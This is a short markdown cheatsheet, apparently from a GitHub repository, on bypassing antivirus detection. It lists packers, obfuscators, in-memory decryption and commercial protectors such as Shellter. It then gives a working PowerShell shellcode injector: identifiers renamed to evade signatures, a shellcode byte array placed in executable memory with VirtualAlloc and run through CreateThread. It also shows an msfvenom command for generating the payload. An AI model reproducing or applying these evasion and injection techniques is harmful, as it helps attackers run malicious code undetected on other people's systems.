 # AV bypass cheatsheet

Sometime it is needed to use some binary but it gets blocke by AV. What to do? Just by pass it..

AV uses static and dynamic methods to detect malware, but we are not malware. So lets think about this.

Test on `antiscan.me`

## Basics

* dump binary 

`xxd -b file.txt`

* dump strings 

`strings file.txt`

### High level list of methods

* packers
* obfuscators (incl. run in memory)
* encryption and in-memory decryption (most effective)
* Tooks: The Enigma Protector

## Thread injection

### Manual

* in-memory injection in powershell script

```powershell

# replacing some well known variable and function names

$var2 = Add-Type -memberDefinition $code -Name "iWin32" -namespace Win32Functions -passthru;

#shell code 
[Byte[]];   
[Byte[]] $var1 = 0xfc,0xe8,0x8f,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xd2,0x64,0x8b,0x52,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28
...

$size = 0x1000;

if ($var1.Length -gt 0x1000) {$size = $var1.Length};

$x = $var2::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($var1.Length-1);$i++) {$var2::memset([IntPtr]($x.ToInt32()+$i), $var1[$i], 1)};

$var2::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };

```

* generate payload using msfvenom

```bash

msfvenom -p ... -f powershell -v sc

# past hex bytes into script

```

### Shellter

Paid program to automate the obfuscation process
